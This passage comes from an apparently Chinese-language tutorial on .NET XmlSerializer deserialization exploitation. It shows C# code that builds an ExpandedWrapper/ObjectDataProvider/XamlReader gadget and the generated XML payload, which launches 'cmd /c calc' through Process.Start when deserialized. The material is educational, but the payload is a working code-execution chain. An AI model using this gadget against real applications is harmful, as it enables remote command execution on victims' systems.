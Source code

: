 ```csharp
            expandedWrapper.ProjectedProperty0.ObjectInstance=new XamlReader();
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<XamlReader, ObjectDataProvider>));
            xml.Serialize(writer, expandedWrapper);
            string result = Encoding.UTF8.GetString(memoryStream.ToArray());
            Console.WriteLine(result);

            memoryStream.Position = 0;
            xml.Deserialize(memoryStream);
        }
    }
}
```
生成的xml文件内容
```xml
<?xml version="1.0" encoding="utf-8"?>                                                                                                            
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ProjectedProperty0>                                                                                                                            
    <ObjectInstance xsi:type="XamlReader" />                                                                                                      
    <MethodName>Parse</MethodName>                                                    
    <MethodParameters>                                                                
      <anyType xsi:type="xsd:string">&lt;ResourceDictionary                           
                    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml"
                    xmlns:b="clr-namespace:System;assembly=mscorlib"
                    xmlns:c="clr-namespace:System.Diagnostics;assembly=system"&gt;
    &lt;ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"&gt;
        &lt;ObjectDataProvider.MethodParameters&gt;
            &lt;b:String&gt;cmd&lt;/b:String&gt;
            &lt;b:String&gt;/c calc&lt;/b:String&gt;
        &lt;/ObjectDataProvider.MethodParameters&gt;
    &lt;/ObjectDataProvider&gt;
&lt;/ResourceDictionary&gt;</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```




# 04-小结
到这里XmlSerializer反序列化就学完了，值得学习的思路是第二点的ResourceDictionary和ExpanderWrapper去用泛型绕过类型的限制。在接下来的篇章会讲述“dotnet里的类加载”以及相关利用

